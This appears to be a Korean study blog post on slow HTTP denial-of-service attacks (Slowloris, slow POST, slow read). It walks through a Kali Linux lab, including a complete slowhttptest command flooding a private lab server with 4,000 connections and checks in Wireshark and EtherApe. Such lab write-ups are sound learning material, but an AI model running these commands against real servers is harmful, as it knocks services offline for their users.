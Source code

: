 ```yaml
---
title:  "Http header DOS" 

categories:
  - dos
tags:
  - [dos]

toc: true

date: 2022-10-04
last_modified_at: 2022-10-04
---
```


##  HTTP Header Dos

- Slow HTTP Header Dos(= Slowloris)

  - HTTP 요청의 Header의 마지막(Black)을 설정하지 않은 조작된 요청을 전달 함

  - 서버는 클라이언트의 요청이 모두 수신되지 않았다고 판단하고 수신될 때까지 유지하면 자원을 소모 함

    ![화면 캡처 2022-10-06 164211](../../assets/img/화면 캡처 2022-10-06 164211.png)

- 패키지 설치

  ```
  ┌──(root㉿kali)-[~]
  └─# slowhttptest
  ```

  ![화면 캡처 2022-10-06 164415](../../assets/img/화면 캡처 2022-10-06 164415.png)

- 실행 테스트

  ```
  ┌──(root㉿kali)-[~]
  └─# slowhttptest
  ```

  ![화면 캡처 2022-10-06 164508](../../assets/img/화면 캡처 2022-10-06 164508.png)

- 공격

  ```
  ┌──(root㉿kali)-[~]
  └─# slowhttptest -g -o slowloris -c 4000 -i 10 -r 100 -t get -x 3 -p 3 -u http://172.16.0.120
  ```

  ![화면 캡처 2022-10-06 165058](../../assets/img/화면 캡처 2022-10-06 165058.png)

  ![화면 캡처 2022-10-06 165153](../../assets/img/화면 캡처 2022-10-06 165153.png)

- 와이어 샤크 확인

  - 공격 하기전 

    ![화면 캡처 2022-10-06 164947](../../assets/img/화면 캡처 2022-10-06 164947.png)

  - 공격 후

    ![화면 캡처 2022-10-06 165313](../../assets/img/화면 캡처 2022-10-06 165313.png)

- slowloris 공격 결과 파일 확인

  ![Untitled (1)](../../assets/img/Untitled (1)-1665043527392-17.png)

- etherape 를 통한 확인

  - 네트워크 부하 확인하는 GUI  도구

  - 설치 및 실행

    ```
    ┌──(root㉿kali)-[~]
    └─# apt install etherape 
    ┌──(root㉿kali)-[~]
    └─# etherape
    ```

    ![화면 캡처 2022-10-06 170755](../../assets/img/화면 캡처 2022-10-06 170755.png)

  - 설치 후 다시 slowloris 공격

    ```
    ┌──(root㉿kali)-[~]
    └─# slowhttptest -g -o slowloris -c 4000 -i 10 -r 100 -t get -x 3 -p 3 -u http://172.16.0.120
    ```

  - etherape 로 확인

    ![화면 캡처 2022-10-06 170424](../../assets/img/화면 캡처 2022-10-06 170424.png)

- Slow HTTP POST Dos
  - POST 요청으로 전달하는 많은 양의 데이터를 장시간에 걸쳐 분할 전송 함

  - 서버가 POST 요청을 모두 전달 받을 때까지 연결을 유지하면서 자원을 소모 함

    ![화면 캡처 2022-10-06 171215](../../assets/img/화면 캡처 2022-10-06 171215.png)

- Slow HTTP read Dos
  - TCP의 전송 가능한 버퍼 사이즈(Window)를 조작하여 데이터 처리율을 감소시킨 후 HTTP 메시지를 전송 하여 정상 응답을 하지 못하도록 유도하는 공격

    ![화면 캡처 2022-10-06 171248](../../assets/img/화면 캡처 2022-10-06 171248.png)
